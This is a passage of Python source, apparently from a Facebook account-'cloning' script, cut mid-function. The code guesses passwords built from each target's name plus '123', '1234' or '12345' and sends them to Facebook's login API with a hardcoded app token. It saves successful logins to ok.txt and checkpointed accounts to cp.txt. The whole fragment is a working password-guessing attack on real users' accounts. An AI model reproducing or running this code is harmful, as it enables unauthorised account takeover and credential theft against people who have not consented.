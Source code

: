 	elif select =="0":
		menu()
	else:
		print ("[!] Please Select a Valid Option")
		indiaa2()
	print("\033[1;97m[+]\033[1;97m Total IDs :\033[1;97m "+str(len(id)))
	print("\033[1;97m[+]\033[1;97m Plz wait clone account will be appear here\033[1;0m")
	print("\033[1;97m--------------------------------------------------")
	
	
        def main(arg):
		user=arg
		uid,name=user.split("|")
		try:
		    pass1=name+"123"
		    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass1 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		    d=json.loads(q)
		    if 'www.facebook.com' in d['error_msg']:
		        print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass1+"\x1b[1;91m | \x1b[1;97m"+name)
		        cp=open("cp.txt","a")
		        cp.write(uid+" | "+pass1+"\n")
		        cp.close()
		        cps.append(uid)
		    else:
		    	if "access_token" in d:
		            print("\x1b[1;92m[Successfull] "+uid+" | "+pass1+" | "+name)
		            ok=open("ok.txt","a")
		            ok.write(uid+" | "+pass1+"\n")
		            ok.close()
		            oks.append(uid)
		        else:
		            pass2=name+"1234"
		            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass2 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		            d=json.loads(q)
		            if 'www.facebook.com' in d['error_msg']:
		                print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass2+"\x1b[1;91m | \x1b[1;97m"+name)
		                cp=open("cp.txt","a")
		                cp.write(uid+" | "+pass2+"\n")
		                cp.close()
		                cps.append(uid)
		            else:
		                if 'access_token' in d:
		                    print("\x1b[1;92m[Successfull] "+uid+" | "+pass2+" | "+name)
		                    ok=open("ok.txt","a")
		                    ok.write(uid+" | "+pass2+"\n")
		                    ok.close()
		                    oks.append(uid)
		                else:
		                    pass3=name+"12345"
		                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass3 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                    d=json.loads(q)
		                    if 'www.facebook.com' in d['error_msg']: